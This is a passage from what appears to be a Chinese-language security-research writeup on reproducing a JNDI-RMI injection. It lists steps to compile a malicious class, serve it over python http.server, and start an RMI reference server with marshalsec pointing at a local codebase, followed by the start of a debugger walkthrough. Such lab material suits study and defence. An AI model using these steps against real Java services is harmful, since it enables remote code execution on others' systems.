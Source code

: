 ![JNDI-RMI](./images/8.png)

运行步骤:
 - 编译恶意类文件: `javac evilObject`
 - 在恶意类文件所在处起一个服务: `python3 -m http.server 4444`
 - 运行`JNDIServer`
 - 运行`JNDIClient`

注意事项:
 - `evilObject.java`及其编译的文件放到其它目录下, 避免在当前目录中直接找到该类来成功实现命令执行
 - `evilObject.java`文件不能申明包名, 声明后编译的`class`文件函数名称会加上包名从而不匹配
 - 注意使用`java`版本, 复现时需要满足可用`jdk`版本

除了利用代码搭建一个`RMI`服务外, 可以直接使用现成的工具`marshalsec`起一个`RMI`服务:

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:80/#testObject 7777
```

#### 过程分析
在`JNDIClient.java`文件中的`GenericURLContext#lookup`方法处下断点.

![JNDIClient-lookup](./images/9.png)

